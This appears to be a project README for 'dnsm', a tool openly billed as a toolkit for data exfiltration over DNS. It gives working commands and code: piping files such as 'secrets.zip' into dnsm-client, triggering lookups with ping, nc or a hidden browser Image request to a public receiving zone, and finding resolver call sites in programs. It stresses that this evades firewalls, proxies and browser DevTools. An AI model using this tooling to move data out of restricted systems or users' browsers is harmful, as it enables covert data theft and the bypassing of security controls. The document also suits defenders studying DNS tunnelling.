

<div align="center">
  <br>
</div>

<div align="center">

# Toolkit for Data Exfiltration via DNS

</div>

<p>
  <a href="https://crates.io/crates/dnsm"></a>
  
  
  
  <!-- Field Study, hahaha -->
</p>

`dnsm` lets you transmit arbitrary data over plain DNS by encoding bytes into domain names and reconstructing the original payload on an authoritative server you control. It works from constrained egress environments to browsers.

<div align="center">
 

<h3 style="margin-top: 5px;">

[Web Mailbox & Browser Test](https://dnsm.re)

</h3>

</div>

## Introduction

Many real‑world environments make "move data from A to B" more complicated than opening a socket. Egress is shaped by segmentation, firewalls, proxies, and sandboxed runtimes. Consider a few common situations: JavaScript running in a browser that only exposes HTTP(S) primitives; a CI runner or serverless function allowed to talk only to specific endpoints; a Kubernetes workload constrained by NetworkPolicies; or a corporate workstation that reaches the internet only through a proxy. The transport you'd normally pick might be unavailable - yet some parts of the stack continue to work automatically.

Most controls are expressed around specific transports and APIs (TCP, TLS, HTTP) and only come into play once an application attempts a connection. What they often leave implicit is what happens first: name resolution.

DNS lookups occur early in connection setup and are frequently permitted because everything else depends on them. Importantly, a DNS query can traverse the network even when no subsequent connection is possible.

While callers rarely influence the resolver's transport details (UDP vs TCP, retries, caching), they do control the most crucial input: the domain name being resolved. A domain name is composed of textual labels. If we can encode information into those labels safely and deterministically, we can induce resolvers to carry our data to an authoritative server we control - without ever establishing an application‑level connection.

This is the idea `dnsm` builds on.

We encode bytes into the textual labels that make up a domain name (naively, think `your_payload_here.k.dnsm.re` - an illustration of the idea, not the actual wire format) and rely on recursive resolvers to carry that name to a zone we control. `dnsm` implements a compact, purpose‑built protocol: inputs are LZMA‑compressed, framed with headers, split into ordered chunks, and encoded so that each chunk becomes a valid hostname label sequence (e.g., base32, length‑safe labels; see [Protocol Header](#protocol-header)). Optional mailboxes provide inbox‑style retrieval and safe multiplexing across messages and senders.

To receive data, pick a short zone you control (e.g., `k.dnsm.re`) and run `dnsm-server` as the authoritative nameserver for that zone. It observes incoming queries, reassembles chunks, and decodes the payload into logs or a SQLite database.

On the sending side, use `dnsm-client` to generate the hostnames for arbitrary data, then trigger DNS resolution using any mechanism your environment allows (OS resolver, browser primitives, proxies, etc.). The lookups traverse recursive resolvers and eventually reach your authoritative server - delivering the message without opening an application‑layer connection.

#### Browsers

The client also runs in browsers and other JS contexts. Depending on how you trigger resolution, those lookups don't show up in browser DevTools and are completely invisible to users. Also, most tools commonly used to inspect app traffic (`mitmproxy`, `Fiddler`, `Burp`, ...) don't capture DNS by default.
If you want to validate these claims, check out [our browser test](https://dnsm.re/#/browser-test).

Read the [Privacy-Preserving Data Transmission](#privacy-preserving-data-transmission) section if you're looking for a more white-hat-friendly use case.

## Quick Start

Download the latest release, put the binaries on your PATH, or run them in place.

> [!NOTE]
> Feel free to use our public zone `k.dnsm.re` for testing, in case you don't want to host your own server.

### Sending Data to the Public Instance

#### Generating domain names from some input data:

```bash
$ echo "hello world" | dnsm-client k.dnsm.re --random-mailbox -n

dnsm-client: zone=k.dnsm.re
             first_payload=141
             payload_per_chunk=141
             total_chunks=1
             mailbox=f8925edd7f13

aaabz6esl3ox6e25aaaiaaamaaaaaaaaaaaaanazjhxi32ixre5dgx74vt3saaa.k.dnsm.re
```

> [!NOTE]
> For such small input data, only one chunk/domain name is needed.

#### Triggering DNS resolution:

```bash
$ ping -c 1 aaabz6esl3ox6e25aaaiaaamaaaaaaaaaaaaanazjhxi32ixre5dgx74vt3saaa.k.dnsm.re

# Or with netcat
$ nc aaabz6esl3ox6e25aaaiaaamaaaaaaaaaaaaanazjhxi32ixre5dgx74vt3saaa.k.dnsm.re 9999 # Port doesn't matter
```

> [!NOTE]
> There are many programs available on a typical Linux installation that can be used for this. Common options include `dig`, `curl`, `wget`, `resolvectl`, `netcat`, `ssh` and many more.

#### Retrieving messages:

```bash
$ dig @dnsm.re f8925edd7f13.m.dnsm.re TXT +tcp +short

"dc5a4edb8240\009hello world\010"
```

Also check out the [web mailbox](https://dnsm.re/#/inbox) and `dnsm-ws`.

### Running the Server Locally

1. Start the authoritative DNS server and point it at your data zone. This example answers on UDP `:5353`, logs queries, and stores reconstructed payloads in SQLite:

```bash
dnsm-server x.foo.bar --bind 0.0.0.0:5353 --respond_with 127.0.0.1 --log queries.log --db ./dnsm.sqlite
```

2. In a different terminal, stream some test data through the client so it emits DNS lookups toward the server:

```bash
echo "hello world" | dnsm-client x.foo.bar --resolver-ip 127.0.0.1:5353

# You can also send binary data
cat secrets.zip | dnsm-client x.foo.bar --resolver-ip 127.0.0.1:5353
```

3. Watch the server log (or inspect the SQLite database) to confirm the message was received and reassembled:

```bash
  tail -f queries.log
```

```bash
  sqlite3 dnsm.sqlite "SELECT id, data FROM messages"
```

## CLI Help

<details>
  <summary><code>dnsm-server --help</code></summary>

```text
Logs queries, answers A records with a fixed IPv4 address, and can
reassemble dnsm payloads when a zone is configured. All runs persist
queries and decoded payloads to SQLite.

Examples:

- dnsm-server x.foo.bar
- dnsm-server x.foo.bar --bind 0.0.0.0:5300 --respond_with 127.0.0.1
- dnsm-server x.foo.bar --mailbox-zone m.example --tcp-mailbox --ans-ttl 30 --neg-ttl 300

Usage: dnsm-server [OPTIONS] <ZONE>

Arguments:
  <ZONE>
          Zone to treat as authoritative for dnsm payloads (required)

Options:
      --bind <ADDR>
          Address to bind (default: 0.0.0.0:53)

          [default: 0.0.0.0:53]

      --mailbox-zone <MBX_ZONE>
          Mailbox TXT zone (optional). When set, TXT queries for "<mailbox-hex>.<mailbox-zone>" will
          return accumulated messages for that mailbox from the SQLite database (when configured)

      --tcp-mailbox
          Enable DNS over TCP handler for mailbox TXT lookups only

      --respond_with <IP>
          IPv4 address to answer for A queries (default: 0.0.0.0)

          [default: 0.0.0.0]

      --log <PATH>
          Path to append diagnostic event logs (default: dnsm_queries.log) Note: queries themselves
          are persisted to SQLite (see --db)

          [default: dnsm_queries.log]

      --db <PATH>
          Path to a SQLite database for persistence (messages table is auto-created)

          [default: dnsm.db]

      --progress-every <N>
          Log progress every n unique chunks (n > 0)

      --gc-ms <MS>
          Garbage-collect inactive assemblies older than this many ms

      --ans-ttl <SEC>
          TTL for A-record answers (default: 0)

          [default: 0]

      --neg-ttl <SEC>
          TTL for negative answers with SOA (default: 300)

          [default: 300]

      --no-color
          Disable ANSI colors in stdout (pretty output is always on)

      --accept-ascii-only
          Accept only messages that decode to ASCII bytes; reject otherwise

      --no-response
          Process queries but send no responses when enabled

  -h, --help
          Print help (see a summary with '-h')
```

</details>

<details>
  <summary><code>dnsm-client --help</code></summary>

```text
Reads from stdin and emits DNS queries carrying the data, or prints
hostnames (one per chunk) when --dont-query is used.

Examples:

- echo 'hello' | dnsm-client x.foo.bar --dont-query
- echo 'hello' | dnsm-client x.foo.bar --await-reply-ms 50 --delay-ms 2 --debug
- head -c 200000 /dev/urandom | dnsm-client x.foo.bar --resolver-ip 127.0.0.1:5353

Usage: dnsm-client [OPTIONS] <ZONE>

Arguments:
  <ZONE>
          Zone/apex the payload labels are appended to

Options:
      --resolver-ip <HOST[:PORT]>
          Send to this resolver (default: first nameserver in /etc/resolv.conf)

  -n, --dont-query
          Do not send; print hostnames (one per chunk)

      --await-reply-ms <MS>
          Wait up to this many ms for a reply to each query (0 disables)

          [default: 0]

      --delay-ms <MS>
          Sleep this many ms between queries

          [default: 5]

      --sent-log <PATH>
          Append a human-readable send log to this file

      --mailbox <HEX12>
          Optional mailbox ID (exactly 12 hex chars, no 0x)

      --random-mailbox
          Generate a random mailbox ID (conflicts with --mailbox)

      --debug
          Verbose progress to stderr

  -p, --pretty
          Print send progress to stdout with colors (does not affect --dont-query output)

      --no-color
          Disable ANSI colors even when --pretty is used

      --tagged-log
          Also write bracketed tags to --sent-log

  -h, --help
          Print help (see a summary with '-h')
```

</details>

## JavaScript (Wasm) Client

The JS client is generated via `wasm-bindgen` and exposes helpers to turn bytes/strings into chunked domain names. After building WebAssembly (see build instructions), import and initialize the module, then call the helpers:

```javascript
// Browser / ESM (vite, webpack, etc.)
import init, {
  domains_for_string,
  domains_for_string_with_mailbox,
} from "./web/src/lib/pkg-web/dnsm.js"; // path to generated pkg

await init(); // loads dnsm_bg.wasm next to dnsm.js

const zone = "k.example.com";
const msg = "hello from js";

// Without mailbox (auto session)
const domains = Array.from(domains_for_string(msg, zone));

// With mailbox (exactly 12 lowercase hex chars)
const mailbox = "050373323440";
const domainsWithMbx = Array.from(
  domains_for_string_with_mailbox(msg, zone, mailbox)
);

// Optionally trigger DNS resolution in the browser (example method)
for (const h of domainsWithMbx) new Image().src = "https://" + h;
```

See [BrowserTest.svelte](web/src/routes/BrowserTest.svelte) for many in-browser resolution methods and usage examples.

Notes:

- The functions return arrays of domain names (strings) that encode your data.
- The same compression, chunking, and mailbox behavior as the CLI is used under the hood.
- For Node/bundlers, you can also import from the `pkg/` directory produced by the wasm build.

## Domain Setup

1. Register a short domain and provision a publicly reachable host.

- Domain names have a maximum length, so shorter domains leave more space to encode payload data.

2. Pick a short data zone (e.g., `k.foo.bar`) and create an `NS` record that points to your host.
   Optional: Also create a mailbox zone (e.g., `m.foo.bar`) for DNS TXT retrieval.

3. Start `dnsm-server` on your host and pass the zone you selected.

## Privacy-Preserving Data Transmission

DNS resolution inherently anonymizes the sender's identity. When a client performs a DNS lookup, the request traverses through one or more recursive resolvers before reaching the authoritative nameserver (terms and conditions apply). From the authoritative server's perspective, the query appears to originate from the recursive resolver - not the original client. This architectural characteristic means the recipient never observes the sender's IP address.

This property has practical applications for privacy-compliant telemetry and analytics, particularly in jurisdictions where IP addresses constitute personally identifiable information (PII) under data protection regulations such as the EU's GDPR. By transmitting telemetry data through DNS queries, organizations can collect usage metrics and analytics from client applications - including web browsers - without capturing or processing any PII. The receiving infrastructure logs only the queries themselves and the IP addresses of intermediate DNS resolvers, which are shared infrastructure and carry no user-identifying information.

Note: Factors such as the specificity of transmitted data, timestamp precision, and correlation with other data sources may affect the privacy characteristics of any implementation.

## Programmatic Rust API

```rust
use dnsm::{build_domains_for_data, BuildOptions};

let data = b"exfiltrate me";
let zone = "k.dnsm.re";
let opts = BuildOptions { mailbox: Some(0x050373323440) };
let (domains, info) = build_domains_for_data(data, zone, &opts)?;
assert!(info.total_chunks >= 1);
```

## Protocol Header

| Section                 | Wire Format                                                                                                                                 | Notes                                                                                                                                                                              |
| :---------------------- | :------------------------------------------------------------------------------------------------------------------------------------------ | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Envelope**            | LZMA input → chunk framing (`header + extras + payload`) → base32 labels (lowercase, no padding).                                           | Each label ≤ 63 bytes. Suffix the labels with the validated zone so the full QNAME stays under 255 bytes on the wire.                                                              |
| **Chunk Header**        | 24-bit big-endian layout `[remaining:16][version:4][first:1][has_mailbox:1][reserved:2]`.                                                   | `remaining` counts chunks left after this one (0 on the final chunk); `version = 0x1`; `first` marks the opener; `has_mailbox` toggles the extra bytes; reserved bits stay zeroed. |
| **Chunk Extras**        | Single: optional 6-byte mailbox. <br> First multi: 6-byte `message_key48`, optional 6-byte mailbox. <br> Follow-up: 6-byte `message_key48`. | `message_key48 = BLAKE3(original_payload)[..6]`; mailbox values are big-endian 48-bit when present; follow-up chunks omit mailbox bytes even though the header flag stays set.     |
| **Identifiers**         | `message_key48` binds chunks and server deduplication. <br> `message_id = BLAKE3(decompressed_payload)[..16]`.                              | Mailbox values are masked to `0x0000_FFFF_FFFF_FFFF`; TXT paging accepts either the 12-hex prefix or the full 32-hex `message_id`.                                                 |
| **Mailbox TXT Replies** | TXT RRs surface as `<message_id_prefix>\t<raw payload bytes>`.                                                                              | Prefix is the first 12 hex chars of `message_id`; oversized replies truncate gracefully and may set the TC bit as a paging hint.                                                   |

## Finding DNS Call Sites

When looking for ways to trigger a specific program to resolve your domain names, a good heuristic is to check whether the executable imports common resolver entry points, then exercise code paths that reach them.

- Common symbols: `getaddrinfo`, `getnameinfo`, `gethostbyname`, `res_query` (libresolv), or library-specific resolvers (e.g., c-ares).
- Linux: `nm -D /usr/sbin/squid | grep -E "getaddrinfo|getnameinfo|gethostbyname|res_query"` or `objdump -T /usr/sbin/squid | grep ...`

Once you've identified a call site, typical triggers include providing a hostname (not an IP) in configuration (base URLs, webhook endpoints), setting proxy variables (`HTTP_PROXY`, `HTTPS_PROXY`, `ALL_PROXY`), or causing the app to load remote assets (updates, telemetry, images). These often funnel into the same resolver APIs and will emit DNS lookups that `dnsm-server` can observe.

## Building From Source

If you prefer building `dnsm` locally:

- Requirements: Rust (stable) and standard build tools. For the web demo, Node.js + npm.

- Native binaries (release builds):

  - Client: `cargo build --release --bin dnsm-client`
  - Server: `cargo build --release --bin dnsm-server --features sqlite`
  - WS/API: `cargo build --release --bin dnsm-ws --features "sqlite,ws-server"`

- WebAssembly bindings for the JS client:

  - Install `wasm-bindgen-cli` once: `cargo install wasm-bindgen-cli --locked`
  - Build: `bash scripts/build_webassembly.sh`
  - The generated files land in `web/src/lib/pkg-web/` and `pkg/`.

- Web app (Svelte + Vite):

  - Dev server: `npm install --prefix web && npm run dev --prefix web`
  - Production build: `npm run build --prefix web`

- Binaries end up in `target/release/`.

- Optional Cargo features:
  - `sqlite` - required for `dnsm-server` and `dnsm-ws` (persistence, queries, views)
  - `ws-server` - enables the WebSocket/HTTP inbox
